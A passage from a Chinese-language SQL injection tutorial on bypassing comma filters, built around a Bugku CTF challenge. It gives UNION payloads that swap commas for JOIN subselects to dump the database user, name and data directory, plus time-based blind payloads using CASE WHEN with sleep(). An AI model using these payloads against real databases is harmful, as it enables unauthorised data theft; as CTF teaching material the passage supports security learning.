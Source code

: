 <center>特殊的绕过</center>

此章会讲一些sql注入的特殊绕过姿势。



#### 1.	逗号绕过





> 此题的实例为bugku中web的`insert into`注入



##### union的逗号绕过



union的逗号绕过很简单，只需要使用join的方式。就能够绕过逗号



而使用`join`的方式如下：

```
union select 1,2,3,4;

union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);

union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
```





##### 盲注的逗号绕过



> bugku的CTF题的payload:
>
> ```
> 1' and (select case when length(database())=1 then sleep(5) else 1 end) and '1
> 
> 1' and (select case when substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag') from %s for 1)='%s' then sleep(5) else 1 end) and '1
> ```





盲注的逗号绕过比较有意思，因为`if`和`substr`都被限制住了。

首先我们需要`case when then else end`语句来代替if语句。





###### case when then else end

此语句的基本语法如下：
